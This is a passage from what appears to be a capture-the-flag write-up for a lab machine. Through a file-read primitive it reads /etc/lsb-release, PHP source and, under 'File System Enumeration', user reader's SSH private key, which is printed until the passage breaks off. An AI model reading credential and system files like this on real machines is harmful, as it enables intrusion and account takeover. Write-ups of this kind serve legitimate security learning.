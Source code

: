 

After waiting a minute, I get just the one file:



    book> /etc/lsb-release
    DISTRIB_ID=Ubuntu       DISTRIB_RELEASE=18.04
    DISTRIB_CODENAME=bionic DISTRIB_DESCRIPTION="Ubuntu
    18.04.2 LTS"



Additionally, the spacing is a bit messed up. Above, the file should
look like:



    DISTRIB_ID=Ubuntu
    DISTRIB_RELEASE=18.04
    DISTRIB_CODENAME=bionic
    DISTRIB_DESCRIPTION="Ubuntu 18.04.2 LTS"



Some of the whitespace gets messed up.

Finally, some of the PHP files don't exfil well at all:



    book> /var/www.md/index.php
    prepare("select email   from    users   where   email=?");      $stmt-
    >bind_param('s',$_POST["email"]);       $stmt->execute();       $result =       $stmt-
    >get_result();  $num_rows=$result->num_rows;    if($num_rows    >       0)      {
    echo    '
    book>



`/var/www.md/db.php` returns nothing (and breaks the shell).

### File System Enumeration

After failing to read the php source, I thought about what else I might
grab. Since I could see the `/etc/passwd` file, I knew that reader was
the only interactive user on the box. I checked for an SSH key, and got
a hit:



    book> /home/reader/.ssh/id_rsa
    -----BEGIN      RSA     PRIVATE KEY-----
    MIIEpQIBAAKCAQEA2JJQsccK6fE05OWbVGOuKZdf0FyicoUrrm821nHygmLgWSpJ
    G8m6UNZyRGj77eeYGe/7YIQYPATNLSOpQIue3knhDiEsfR99rMg7FRnVCpiHPpJ0
    WxtCK0VlQUwxZ6953D16uxlRH8LXeI6BNAIjF0Z7zgkzRhTYJpKs6M80NdjUCl/0
    ePV8RKoYVWuVRb4nFG1Es0bOj29lu64yWd/j3xWXHgpaJciHKxeNlr8x6NgbPv4s
    7WaZQ4cjd+yzpOCJw9J91Vi33gv6+KCIzr+TEfzI82+hLW1UGx/13fh20cZXA6PK
    75I5d5Holg7ME40BU06Eq0E3EOY6whCPlzndVwIDAQABAoIBAQCs+kh7hihAbIi7
    3mxvPeKok6BSsvqJD7aw72FUbNSusbzRWwXjrP8ke/Pukg/OmDETXmtgToFwxsD+
    McKIrDvq/gVEnNiE47ckXxVZqDVR7jvvjVhkQGRcXWQfgHThhPWHJI+3iuQRwzUI
    tIGcAaz3dTODgDO04Qc33+U9WeowqpOaqg9rWn00vgzOIjDgeGnbzr9ERdiuX6WJ
    jhPHFI7usIxmgX8Q2/nx3LSUNeZ2vHK5PMxiyJSQLiCbTBI/DurhMelbFX50/owz
    7Qd2hMSr7qJVdfCQjkmE3x/L37YQEnQph6lcPzvVGOEGQzkuu4ljFkYz6sZ8GMx6
    GZYD7sW5AoGBAO89fhOZC8osdYwOAISAk1vjmW9ZSPLYsmTmk3A7jOwke0o8/4FL
    E2vk2W5a9R6N5bEb9yvSt378snyrZGWpaIOWJADu+9xpZScZZ9imHHZiPlSNbc8/
    ciqzwDZfSg5QLoe8CV/7sL2nKBRYBQVL6D8SBRPTIR+J/wHRtKt5PkxjAoGBAOe+
    SRM/Abh5xub6zThrkIRnFgcYEf5CmVJX9IgPnwgWPHGcwUjKEH5pwpei6Sv8et7l
    skGl3dh4M/2Tgl/gYPwUKI4ori5OMRWykGANbLAt+Diz9mA3FQIi26ickgD2fv+V
    o5GVjWTOlfEj74k8hC6GjzWHna0pSlBEiAEF6Xt9AoGAZCDjdIZYhdxHsj9l/g7m
    Hc5LOGww+NqzB0HtsUprN6YpJ7AR6+YlEcItMl/FOW2AFbkzoNbHT9GpTj5ZfacC
    hBhBp1ZeeShvWobqjKUxQmbp2W975wKR4MdsihUlpInwf4S2k8J+fVHJl4IjT80u
    Pb9n+p0hvtZ9sSA4so/DACsCgYEA1y1ERO6X9mZ8XTQ7IUwfIBFnzqZ27pOAMYkh
    sMRwcd3TudpHTgLxVa91076cqw8AN78nyPTuDHVwMN+qisOYyfcdwQHc2XoY8YCf
    tdBBP0Uv2dafya7bfuRG+USH/QTj3wVen2sxoox/hSxM2iyqv1iJ2LZXndVc/zLi